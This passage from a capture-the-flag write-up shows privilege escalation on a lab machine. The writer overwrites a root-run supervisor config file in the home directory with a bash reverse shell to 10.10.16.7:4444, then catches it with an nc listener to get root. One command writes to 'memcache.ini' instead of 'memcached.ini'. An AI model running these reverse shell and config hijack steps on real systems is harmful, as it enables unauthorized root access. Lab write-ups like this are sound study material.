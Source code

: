 ```bash
2025/09/25 22:58:02 CMD: UID=0    PID=13721  | sudo -u nobody /usr/bin/node /home/professor/memcached.js 
```

We find in our home dir a memcached.ini

```bash
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

This looks like the command being executed by root. Maybe it’s running the file from memcached.ini. Since memcached.ini is in our home dir, we can rename it and create a new file with its name and edit that.

```bash
mv memcached.ini new
touch memcached.ini
cat new > memcache.ini
```

Now we can edit with vi, let’s put a reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
#Now memcache.ini looks like
[program:memcached]
command = bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"

```

Now start a listener:

```bash
nc -lnvp 4444
```

We are now root:

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%2016.png)